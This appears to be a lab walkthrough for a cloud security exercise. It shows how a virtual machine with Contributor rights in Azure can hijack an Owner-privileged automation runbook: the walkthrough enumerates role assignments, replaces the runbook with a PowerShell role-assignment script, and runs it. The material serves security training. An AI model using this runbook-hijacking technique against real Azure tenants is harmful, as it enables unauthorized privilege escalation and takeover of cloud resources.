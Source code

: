# Objective

Leverage the misconfiguration and escalate privilege to the owner of the resource group.

# Solution

We will have a virtual machine with a contributor role assigned and also an automation account runbook with an owner role assigned. SSH into the VM and list the resources inside the resource group and find the runbook inside the automation account. Update the runbook code with the code to change the virtual machine contributor role to the owner. Thus privilege escalation can be done.

### Login to the virtual machine using the credentials obtained from the config.txt file.

Provide the write permission to the justin.pem file and login to the virtual machine.

```
chmod +600 justin.pem

ssh -i justin.pem justin@40.85.170.40
```

![](https://user-images.githubusercontent.com/65826354/183737316-807e8ff3-cfe8-4cc3-a4db-9e260dea3eb1.png)

### Try to perform az login and check whether we can interact with the resources or not.

```
az login -i
```

![](https://user-images.githubusercontent.com/65826354/183737322-916d1d8e-b8f6-4e6e-8e84-e3fcd7758acf.png)

### List the resources.

```
az resource list
```

![](https://user-images.githubusercontent.com/65826354/183737331-91b0f964-b607-424f-a930-ebc7248eb52f.png)

Look for the name of VM and principal id in the output.

### Check the level of access given to our VM.

```
az role assignment list -g user_blog_app
```

Match the principal id of our VM's identity with the role assignments.

![](https://user-images.githubusercontent.com/65826354/183737337-f2f85115-8e8b-4c45-9002-a5768546b3e1.png)

Now, check the level of access given to our VM

![](https://user-images.githubusercontent.com/65826354/183737343-4a4a5a29-ebc2-43c6-a001-cf34510e20dc.png)

We have a contributor role assigned. We can not perform role assignment operations to escalate our privileges.

### Check the list of resources to find out which resource is associated with the owner-level identity.

In the list of role assignments, we have an Owner role, we will try to map its principalId with the principalId for one of the resources.

![](https://user-images.githubusercontent.com/65826354/184819054-7fedea67-b854-40ef-8035-5b9e389f60b3.png)

![](https://user-images.githubusercontent.com/65826354/183737354-27fdcc60-58ec-45c8-a0c3-b0abf6d459a3.png)

We found an automation account with Owner privileges. 

### Check for the runbooks to perform privileges escalation.

![](https://user-images.githubusercontent.com/65826354/183737359-b9ce3b71-1531-48a8-8ee7-6fc1cc689e91.png)

We found a PowerShellWorkFlow based runbook.

Run: -

```
az automation runbook list --automation-account-name dev-automation-account-test -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)

### Write a PowerShell script.

This code will assign the **Owner** role to the virtual machine.

```
workflow Get-AzureVM
{
    Disable-AzContextAutosave -Scope Process
    $AzureContext = (Connect-Azaccount -Identity -AccountId <Identity-Client-ID>).context
    $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
    New-AzRoleAssignmnet -RoleDefinitionName "Owner" -ObjectId <VM-Object-ID> -resourceGroupName <ResourceGroup Name>
}
```

![](https://user-images.githubusercontent.com/65826354/183737373-0d4de08c-4782-41e5-947d-7dee0ecf35e1.png)

### Replace, publish and re-start the runbook.

We will replace the content inside the azure runbook, publish it and start it to execute the role assignment code.

```
az automation runbook replace-content --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"

az automation runbook start --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
```

![](https://user-images.githubusercontent.com/65826354/183737393-71783bc1-0d89-4df4-94fc-dfccd7b444c2.png)

### Check the role assignment list.

```
az role assignment list -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737404-198f7ef3-8b93-4e59-b0dd-05624d7c50c4.png)

Find our VM using the principalId.

![](https://user-images.githubusercontent.com/65826354/183737413-b1df1449-dd20-4ec3-9104-d7d487301fed.png)

The role got changed from contributor to owner.

***Congrats! We successfully escalated the privileges to the owner of the resource group.***